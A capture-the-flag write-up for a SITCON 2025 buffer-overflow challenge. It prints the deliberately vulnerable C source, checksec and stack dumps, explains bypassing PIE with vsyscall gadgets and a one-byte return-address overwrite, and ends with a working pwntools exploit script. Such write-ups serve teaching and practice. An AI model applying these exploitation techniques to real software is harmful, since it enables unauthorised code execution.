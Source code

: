 # CRYCHIC never died ... 🌸☀️📷
> Author: 堇姬 Naup

## solve
It has buffer overflow and win function.
```c
#include <stdlib.h>
#include <stdio.h>

// gcc chal.c -o chal -fno-stack-protector

void win() {
    puts("Forever ...");
    FILE *fp = fopen("/home/chal/flag.txt", "r");   
    if (fp == NULL) {
        perror("Error opening file");
        return 1;
    }

    char buffer[1024];  
    while (fgets(buffer, sizeof(buffer), fp) != NULL) {
        printf("%s", buffer);  
    }

    fclose(fp);
}

int main() {
    char buf[0x30];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("CRYCHIC Never Died !!!!! Go to watch this video https://youtu.be/NJ1tne9u8YM?si=oH2lj2lmY5QXO5HD !");
    read(0, buf, 0x100);
}
```

But it open all protection, except for stack canary.
```
pwndbg> checksec
File:     /home/naup/Desktop/SITCON-2025-Challenge/CRICHIC_never_died/server/share/chal
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

If we don't know PIEbase, still can't jump to the win function.
We can observer stack (when it will execute `ret`.).
It look like this.

```
00:0000│ rsp 0x7fffffffddf8 —▸ 0x7ffff7c29d90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffde00 ◂— 0
02:0010│     0x7fffffffde08 —▸ 0x5555555552c5 (main) ◂— endbr64 
```

If we can overwrite `rsp+0x10` low one byte to win address and control rip to this part, we can get flag.
But how to let RIP change to this part.

vsyscall is a good way.
The address of vsyscall remains the same every time, and vsyscall have this gadget
```
0xffffffffff600000:  mov rax,0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
```

we can over write stack like this
0xffffffffff600000 can look it like `ret` 
```
00:0000│ rsp 0x7fffffffddf8 —▸ 0xffffffffff600000 
01:0008│     0x7fffffffde00 ◂— 0xffffffffff600000
02:0010│     0x7fffffffde08 —▸ 0x55555555522e (win+5) ◂— mov rbp, rsp
```

So now we can jump to win function and get flag!

## exploit
```python
from pwn import *

r = process("./chal")
#r=remote("192.168.5.131", 41000)

payload = b"A" * 0x38 + p64(0xffffffffff600000) + p64(0xffffffffff600000) + b"\x2e"
r.send(payload)

r.interactive()
```










